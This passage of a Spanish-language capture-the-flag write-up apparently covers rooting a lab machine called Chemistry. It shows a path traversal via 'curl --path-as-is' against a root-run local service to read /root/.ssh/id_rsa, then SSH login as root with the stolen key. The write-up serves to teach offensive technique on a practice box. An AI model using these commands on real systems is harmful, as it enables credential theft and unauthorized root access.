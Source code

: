 - `--path-as-is`: Es importante al momento de enviar la solicitud para que `curl` no altere la ruta que enviamos


## Abusing SSH `id_rsa` File

Si listamos los procesos en ejecución podremos ver que `root` ejecuta este servicio interno. Sabiendo esto, tenemos privilegios suficientes para traernos una clave privada (`id_rsa`) del directorio `/root/.ssh` y así poder usar este archivo para conectarnos como el usuario `root` a la máquina víctima (en caso de que exista), sin tener que proporcionar credenciales

~~~ bash
rosa@chemistry:~$ ps -faux
~~~

Una vez entendido el concepto procederemos a traernos la clave privada a través del Path Traversal

~~~ bash
curl --path-as-is http://localhost:8080/assets/../../../root/.ssh/id_rsa > id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3Blbn...
NhAAAA...
UbrmTG...
-----END OPENSSH PRIVATE KEY-----
~~~

Usaremos el archivo `id_rsa` como un archivo de identidad a `ssh` para conectarnos como `root`

~~~
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.38
~~~~

